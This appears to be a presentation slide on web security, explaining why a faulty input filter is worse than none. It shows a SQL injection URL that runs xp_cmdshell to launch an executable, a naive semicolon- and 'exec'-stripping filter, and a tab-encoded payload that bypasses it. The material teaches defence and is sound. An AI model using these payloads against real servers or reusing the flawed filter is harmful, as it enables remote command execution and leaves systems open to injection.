

# Faulty Filters Worse Than No Filters
/page.aspx?theID=1;exec xp_cmdshell ‘serverpwnage.exe’;

function cleanrequest(theID)
	theID = lcase(theID)
	if instr(theID,";") > 0 then
		theID = left(theID,instr(theID,";")-1)
	end if
	if instr(theID,"exec ") > 0 then
		theID = left(theID,instr(theID,"exec ")-1)
	end if

Function To Filter User Input
Looks For The Use Of A Semi Colon
Looks For The Term exec followed by a space
This Filter Can Be Bypassed By Using A Tab Character As A Separator
/page.aspx?theID=1%09exec%09xp_cmdshell ‘serverpwnage.exe’;